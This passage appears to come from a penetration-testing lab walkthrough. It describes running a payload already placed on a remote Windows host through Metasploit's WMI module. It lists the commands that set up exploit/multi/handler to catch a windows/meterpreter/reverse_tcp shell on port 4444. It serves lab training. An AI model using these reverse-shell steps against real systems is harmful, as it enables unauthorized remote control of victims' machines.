     ![A screenshot depicts the results of the command.](Images/put.png)

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running the commands.](Images/multihandler.PNG)
